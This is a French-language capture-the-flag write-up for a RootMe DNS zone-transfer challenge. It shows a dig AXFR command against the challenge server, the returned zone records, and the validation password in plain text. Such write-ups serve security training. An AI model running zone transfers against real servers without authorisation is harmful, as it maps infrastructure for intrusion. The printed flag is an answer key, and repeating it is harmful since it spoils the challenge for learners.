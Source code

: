 # Challenge RootMe :DNS - Transfert de Zone

-**Catégorie** : Réseau  
-**Difficulté** : ⭐⭐
-**Objectif** : Récupérer le mot de passe de validation en exploitant une mauvaise configuration de transfert de zone DNS.

---

## 📝 Étapes de résolution

### 1. Identification de la cible
- **Hôte** : `challenge01.root-me.org`
- **Port** : `54011`
- **Domaine** : `ch11.challenge01.root-me.org`
- **Protocole** : `DNS`

### 2. Exécution de la commande de transfert de zone
Utilisation de l'outil `dig` pour lancer une requête de transfert de zone :
```bash
dig @challenge01.root-me.org -p 54011 AXFR ch11.challenge01.root-me.org.
```

### 3. Analyse de la réponse DNS

La réponse obtenue présente plusieurs enregistrements DNS. Un extrait significatif de la réponse est le suivant :

```bash
ch11.challenge01.root-me.org. 604800 IN SOA     ch11.challenge01.root-me.org. root.ch11.challenge01.root-me.org. 2 604800 86400 2419200 604800
ch11.challenge01.root-me.org. 604800 IN TXT     "DNS transfer secret key : CBkFRwfNMMtRjHY"
ch11.challenge01.root-me.org. 604800 IN NS      ch11.challenge01.root-me.org.
ch11.challenge01.root-me.org. 604800 IN A       127.0.0.1
challenge01.ch11.challenge01.root-me.org. 604800 IN A 192.168.27.101
```

### 4. Récupération du mot de passe

L'enregistrement TXT contient le mot de passe de validation :

```plaintext
DNS transfer secret key : CBkFRwfNMMtRjHY
```
Ce qui nous permet d'obtenir directement le flag.

**🛠 Outils utilisés**
- dig : Utilitaire DNS en ligne de commande
- Terminal UNIX/Linux : Pour exécuter la commande

**🏆 Solution finale**
Mot de passe :
```plaintext
CBkFRwfNMMtRjHY
```
